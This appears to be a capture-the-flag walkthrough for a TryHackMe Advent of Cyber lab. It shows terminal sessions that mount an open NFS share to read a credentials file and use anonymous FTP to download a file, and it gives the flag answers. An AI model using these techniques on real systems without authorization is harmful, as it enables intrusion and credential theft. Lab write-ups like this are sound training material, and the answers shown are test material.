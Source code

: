```
Network Distance: 2 hops
Service Info: OS: Unix

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   29.84 ms 10.8.0.1
2   30.17 ms 10.10.89.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.64 seconds
```

1. What is the password inside the creds.txt file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ showmount -e 10.10.89.226
Export list for 10.10.89.226:
/opt/files *
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir 10.10.89.226
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mount 10.10.89.226 10.10.89.226/
mount: only root can do that
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226 10.10.89.226/
mount: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226 is not a block device.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226:/opt/files day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ls -la day11_nfs/
total 8
drwxrwxrwx 2 kali kali   23 Dec 10  2019 .
drwxr-xr-x 3 kali kali 4096 Oct  2 11:34 ..
-rwxrwxrwx 1 kali kali   34 Dec 10  2019 creds.txt
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat day11_nfs/creds.txt 
the password is securepassword123
```

`securepassword123`

2. What is the name of the file running on port 21?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ftp 10.10.89.226
Connected to 10.10.89.226.
220 (vsFTPd 3.0.2)
Name (10.10.89.226:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (514.6748 kB/s)
```